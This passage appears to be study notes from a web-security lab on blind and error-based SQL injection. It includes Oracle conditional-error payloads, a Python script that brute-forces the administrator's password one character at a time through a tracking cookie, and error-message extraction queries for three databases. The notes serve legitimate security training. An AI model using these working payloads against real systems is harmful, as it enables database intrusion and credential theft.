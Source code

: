 `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

*ORACLE*
`TrackingId=KjXtzlai4eYNgiSL'UNION (SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')--;`

If the length of password is greater than 20 => Cause 500 error. By this we can determine the length of password is 20.

Then extract each character of password:

```python
import httpx
import string


password_length = 20
password = ""
alphabet= list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
print(alphabet)

url = "https://0a0a003d031b165a80dd0382006500d1.web-security-academy.net/"
cookies = {
    "session": "kmH73vUrbJzcoQVG4e2ShDYQ2jYY9OTk",
    "TrackingId": "a"
}

with httpx.Client() as client:
   for position in range(1, password_length + 1):  
    for x in alphabet:  
        cookies["TrackingId"] = (
            f"KjXtzlai4eYNgiSL'UNION (SELECT CASE WHEN (SUBSTR(password,{position},1) = '{x}') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')--"
        )
        
        response = httpx.get(url, cookies=cookies)

        if response.status_code == 500: 
            password += x
            print(f"Found character at position {position}: {x}")
            break

print(f"Password: {password}")


```

### Extracing sensitive data via verbose SQL error messages

| Database   | Query                                                                         | Error Message                                                                  |
| ---------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret')`                                    | Conversion failed when converting the varchar value 'secret' to data type int. |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`                    | invalid input syntax for integer: "secret"                                     |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` | XPATH syntax error: '\secret'                                                  |
